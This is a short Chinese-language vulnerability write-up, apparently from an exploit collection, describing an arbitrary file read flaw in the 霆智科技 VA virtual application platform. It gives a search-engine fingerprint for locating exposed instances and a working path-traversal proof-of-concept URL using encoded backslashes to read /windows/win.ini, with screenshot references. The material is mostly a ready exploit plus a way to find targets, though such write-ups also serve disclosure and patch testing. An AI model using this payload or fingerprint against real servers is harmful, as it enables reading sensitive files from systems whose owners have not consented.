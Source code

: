 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## 网络测绘

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

![image-20230704111747376](images/image-20230704111747376.png) 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![image-20230704112349037](images/image-20230704112349037.png)